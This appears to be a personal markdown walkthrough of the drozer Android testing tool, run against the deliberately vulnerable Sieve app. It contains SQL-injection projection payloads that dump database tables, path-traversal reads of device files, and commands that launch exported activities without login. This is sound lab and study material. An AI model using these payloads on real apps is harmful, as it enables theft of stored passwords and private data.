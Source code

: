 # Drozer
## Setting up drozer

1. Go to the following link and download the latest drozer version
	[Github drozer release page](https://github.com/FSecureLABS/drozer/releases/)
2. Downloading the .deb package - didn't work
		
3. Downloading .whl file and then installing pip for python 2.7
      running for installing drozer
      ```bash
      $ python -m pip install drozer-2.4.4-py2-none-any.whl
      ```
4. confirm that drozer is up and running using the command		
	```bash
	$ drozer
	```
5. before installing the drozer agent, install Genymotion_ARM_Translation 
	[Genymotion-ARM-Translation](https://github.com/m9rco/Genymotion_ARM_Translation/blob/master/package/Genymotion-ARM-Translation_for_8.0.zip)
6. Then download drozer agent from the github and install it in the android device
7. Go to the drozer agent and then enable Embedded Server
8. Then run the following command
	```bash
	$ adb connect 192.168.84.107
	$ adb devices
		//to check whether the device have been connected or not
	$ adb forward tcp:31415 tcp:31415
	```	
9. Then run the follwoing command to start drozer console
	```bash		
	$ drozer console connect
	```
10. Drozer is successfully started
----
##Drozer commands
### To view the list of packages installed on the android console
	```
	dz> run app.package.list
	```
  To select a particular package (use -f with the keywork to search)
	```
	dz> run app.package.list -f drozer 
	```	
  To view the information about a package
	```	
	dz> run app.package.info -a <package_name>
	dz> run app.package.info -a com.mwr.example.sieve
	```		
  To view the attack surface of the applications
	```
	dz> run app.package.attacksurface <package_name>
	dz> run app.package.attacksurface com.mwr.example.sieve
		//shows the available attack surfaces
	```
	output:	
			          3 activities exported
				  0 broadcast receivers exported
				  2 content providers exported
				  2 services exported
				    is debuggable
				    
### Launching activities
	```
	dz> run app.activity.info -a com.mwr.example.sieve
	```
		//shows a list of activities which are exported by the application and also the permission needed to launch the application
		Since the activities is exported and doesn't require any permission, launching it with the help of drozer
	```		
	dz> run app.activity.start --component com.mwr.example.sieve com.mwr.example.sieve.MainLoginActivity
	```		
			
### To read fro the content provider
	```
	dz> run app.provider.info -a com.mwr.example.sieve
	```
	//lists the exported content providers
				
	To extract the data from content providers, we need to reconstruct content URIs which begins with content:// but rest of the part of the URI is unknown. So, running drozer scanner to find more information about the application
			
### Drozer scanner
	```
	dz> run scanner.provider.finduris -a com.mwr.example.sieve
	```
	//gives a list of content URIs and divide them into a list of accessible content URIs
				
### Reading from content providers, now that we have the content URIs from the above scan
	```
	dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/
	```
	//using the above command, we can also modify the data.
			
### checking for sql injection using the projection
	```
	dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'"
	```		
		To list down the available tables in sqlite database using the above vulnerability
	```		
	dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM SQLITE_MASTER WHERE type='table';--"
	```		
	
	To retrieve the data of a table
	```		
	dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;--"
	```		

### File system-backed content providers
	```			
	dz> run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts
	dz> run app.provider.download content://com.mwr.example.sieve.FileBackupProvider/data/data/com.mwr.example.sieve/databases/database.db /home/prajjwal/tmp/database.db
	```
	// reading file from the application data directory and to write at the operating system's file system
		
### Drozer module to test for simple vulnerability 
	```		
	dz> run scanner.provider.injection -a com.mwr.example.sieve
	dz> run scanner.provider.traversal -a com.mwr.example.sieve
	```		

### To list down exported services
	```
	dz> run app.service.info -a com.mwr.example.sieve
	```
### To list down the available modules in the drozer use, 
	```
	dz> list
	```
---		
### drozer additional modules
	```
	dz> module search cmdclient
	to get more information about the above module, pass -d option
	dz> module search cmdclient -d
	```
### installing modules
	```
	dz> module install cmdclient	
	```

---
|namespace|description|
|:-----------------|:---------------------------------------------------------------------|
|app.activity | Find and interact with activities exported by apps.|
|app.broadcast | Find and interact with broadcast receivers exported by apps.|
|app.package | Find packages installed on a device, and collect information about them.|
|app.provider | Find and interact with content providers exported by apps.|
|app.service | Find and interact with services exported by apps.|
|auxiliary | Useful tools that have been ported to drozer.|
|exploit.pilfer | Public exploits that extract sensitive information through unprotected content providers or SQL injection.|
|exploit.root | Public root exploits.|
|information | Extract additional information about a device.|
|scanner | Find common vulnerabilities with automatic scanners.|
|shell | Interact with the underlying Linux OS.|
|tools.file | Copy files to and from the device.|
|tools.setup | Install handy utilities on the device, including busybox.|
